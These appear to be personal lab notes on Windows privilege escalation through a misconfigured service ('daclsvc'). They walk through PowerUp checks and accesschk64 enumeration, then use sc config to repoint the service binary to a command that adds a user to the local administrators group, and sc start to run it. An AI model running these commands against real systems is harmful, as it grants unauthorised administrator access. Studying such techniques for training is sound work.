 **PowerUp**:
```PowerShell
Invoke-AllChecks
```

![[Pasted image 20240422093945.png]]

---

**accesschk64.exe**:
```cmd
accesschk64.exe -uwcv Everyone *
```
Args:
`-u`: Suppress errors
`-w`: Only show objects with write access
`-c`: Display service name
`-v`: Verbose
`Everyone`: Group name (containing every user) we check against

![[Pasted image 20240422094020.png]]

Query the service for information:
```cmd
sc qc daclsvc
```

![[Pasted image 20240422094306.png]]

Since we have **SERVICE_CHANGE_CONFIG** permissions we can change the binary path name, and then with **SERVICE_START** and **SERVICE_STOP** permissions we can restart the service and exploit it.

Set the binary path:
```cmd
sc config daclsvc binpath= "net localgroup administrators <username> /add"
```

Query the service again to confirm the change:
![[Pasted image 20240422094751.png]]

Start the service to run the exploit:
```cmd
sc start daclsvc
```